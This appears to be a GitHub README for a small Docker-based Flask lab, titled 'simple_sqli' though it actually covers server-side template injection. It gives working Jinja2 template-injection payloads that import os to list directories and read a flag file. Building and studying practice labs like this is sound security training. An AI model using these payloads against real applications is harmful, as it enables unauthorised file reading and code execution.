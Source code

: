 # simple_sqli

Very simple SSTI(Server-Side Template Injection) environment with docker

## Environment

docker-compose.yml for ssti on flask

- Python: 3.7
- Flask: 1.1.2

## How to setup

```
$ docker-compose up
```

## How to exploit

Please visit localhost:5000

![home](./images/sc.png)

First, you can check directory like this:

``
{{request.application.__self__._get_data_for_json.__globals__.__builtins__.__import__('os').listdir('./')}}
``

and like this:

```
{{request.application.__self__._get_data_for_json.__globals__.__builtins__.__import__('os').listdir('./flag')}}
```

You can get the flag like this:

```
{{request.application.__self__._get_data_for_json.__globals__['__builtins__']['open']('./flag/flag.txt').read()}}
```
